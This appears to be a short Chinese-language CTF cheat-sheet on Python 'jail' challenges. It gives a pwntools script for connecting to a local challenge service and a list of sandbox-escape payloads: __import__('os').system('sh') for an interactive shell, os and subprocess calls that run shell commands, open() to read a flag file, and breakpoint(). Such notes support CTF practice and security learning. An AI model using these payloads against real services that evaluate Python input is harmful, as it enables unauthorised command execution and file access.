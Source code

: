 关键词：jail

nc或python连接入口：
```
from pwn import *

server_ip = '127.0.0.1'
server_port = 26582

connection = remote(server_ip, server_port)

received_data = connection.recv().decode('utf-8')
send_data = received_data[-32:-26] + received_data[-23:-17]

print(received_data)

connection.sendline(send_data.encode('utf-8'))
connection.interactive()
connection.close()
```
一般会给你代码审计，然后连接入口后输入payload。


^
直接高权限命令读
```
__import__('os').system('sh') 返回交互式shell

__import__('os').system('ls -al /tmp')

__import__('subprocess').run('cd /tmp && ls -al', shell=True)
```

低权限文件读
```
print(open('/tmp/therealflag_b8c7f31438c67cea772d2ea57dc77918').read())
```

限制长度
返回交互式终端
```
breakpoint()
```